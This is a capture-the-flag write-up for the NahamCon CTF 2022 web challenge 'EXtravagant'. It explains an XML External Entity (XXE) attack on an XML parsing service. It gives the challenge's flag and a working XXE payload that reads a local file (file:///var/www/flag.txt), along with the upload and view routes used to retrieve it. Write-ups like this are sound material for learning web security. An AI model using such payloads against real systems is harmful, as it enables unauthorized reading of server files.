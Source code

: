 # NahamCon CTF 2022: EXtravagant

Category: Web

Points: 50

## Description

> I've been working on a XML parsing service. It's not finished but there should be enough for you to try out. The flag is in /var/www

## Summary

For this challenge we can abuse XML External Entity (XXE) to read the contents of a file. We need to upload a xml with our payload and then view the file to see the flag. 

## Flag

```
flag{639b72f2dd0017f454c44c3863c4e195}
```

## Detailed Solution

We can use the following code to read the contents of the flag. (foo and bar can be any string)

```xml
( CONTENTS OF VULN.XML )

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/flag.txt"> ]>
<bar>&xxe;</bar>
```

Now let's try to upload the xml file. This can be done by using the /trial route. After uploading the xml file we can view the contents of the file using the /XML route.
```
[HOST]:[PORT]/XML?file=vuln.xml
```

---
[Back to home](../../README.md)
